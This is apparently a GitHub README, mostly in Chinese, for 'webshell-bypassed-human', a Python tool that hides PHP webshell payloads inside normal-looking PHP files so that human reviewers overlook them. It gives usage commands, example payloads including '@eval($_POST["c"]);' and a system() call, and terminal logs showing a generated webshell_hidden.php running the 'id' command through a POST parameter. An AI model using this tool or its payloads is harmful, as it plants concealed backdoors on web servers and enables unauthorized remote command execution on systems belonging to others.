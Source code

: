 # webshell-bypassed-human
见公众号文章：[传送门](https://mp.weixin.qq.com/s?__biz=MzI3OTE4MTU5Mw==&mid=2247483933&idx=1&sn=94c10672d664ae84e233792c09231a47&chksm=eb4ae26bdc3d6b7d0ffc09f9c64ac081e4e2af2d629927321d531b37a86a6333a5635fdf6a16&scene=0&xtrack=1#rd)
，或者见 fb 文章 https://www.freebuf.com/articles/web/241454.html

过人 webshell 的生成工具

```shell
» python hide_webshell.py
usage: hide_webshell.py [-h] -pf PAYLOAD_FILE [--pro] [-wf WEBSHELL_FILE]
                        [--debug]
                        php
hide_webshell.py: error: the following arguments are required: php, -pf/--payload_file
```

将 payload 放在 `-pf` 所指定的路径

## hide webshell
示例：

`python hide_webshell.py hide_webshell.py normal.php -pf payload.txt`

## hide webshell pro
示例：

`python hide_webshell.py normal_pro.php -pf payload.txt --pro`

## payload 示例
- `system("echo \"hacked by Tr0y :)\"");`
- `@eval($_POST["c"]);`

## 完整示例
```
# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:27]
» cat payload.txt
system("echo \"hacked by Tr0y :)\"");%

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:28]
» p hide_webshell.py normal.php -pf payload.txt && php webshell_hidden.php
[+] Hide webshell in normal mode
  [-] Get payload from payload.txt
      Payload is system("echo \"hacked by Tr0y :)\"");
  [-] Get php code from normal.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
hacked by Tr0y :)

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:45:31]
» p hide_webshell.py normal_pro.php -pf payload.txt --pro && php webshell_hidden.php
[+] Hide webshell in pro mode
  [-] Get payload from payload.txt
      Payload is system("echo \"hacked by Tr0y :)\"");
  [-] Get php code from normal_pro.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
hacked by Tr0y :)

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:23]
» cat payload.txt
@eval($_POST["c"]);%

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:24]
» p hide_webshell.py normal.php -pf payload.txt && php -r '$_POST["c"]="system(\"id\");"; require("webshell_hidden.php");'
[+] Hide webshell in normal mode
  [-] Get payload from payload.txt
      Payload is @eval($_POST["c"]);
  [-] Get php code from normal.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
uid=502(macr0phag3) gid=20(staff) groups=20(staff),12(everyone), ...此处省略

# macr0phag3 in ~/Tr0y/webshell-bypassed-human on git:master ✖︎ [14:48:26]
» p hide_webshell.py normal_pro.php -pf payload.txt --pro && php -r '$_POST["c"]="system(\"id\");"; require("webshell_hidden.php");'
[+] Hide webshell in pro mode
  [-] Get payload from payload.txt
      Payload is @eval($_POST["c"]);
  [-] Get php code from normal_pro.php
[!] Saved webshell as webshell_hidden.php
[!] All done

Bye :)
uid=502(macr0phag3) gid=20(staff) groups=20(staff),12(everyone), ...此处省略
```

## 其他
![](https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png)

[![Stargazers over time](https://starchart.cc/Macr0phag3/webshell-bypassed-human.svg)](https://starchart.cc/Macr0phag3/webshell-bypassed-human)
